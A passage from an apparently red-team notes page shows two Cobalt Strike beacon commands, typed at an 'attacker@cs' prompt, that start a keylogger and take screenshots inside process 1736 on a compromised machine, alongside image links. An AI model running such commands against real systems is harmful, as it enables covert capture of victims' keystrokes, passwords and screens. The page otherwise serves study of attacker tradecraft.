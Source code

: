 {% code title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-31-30.png)

### Screenshot

{% code title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-33-51.png)
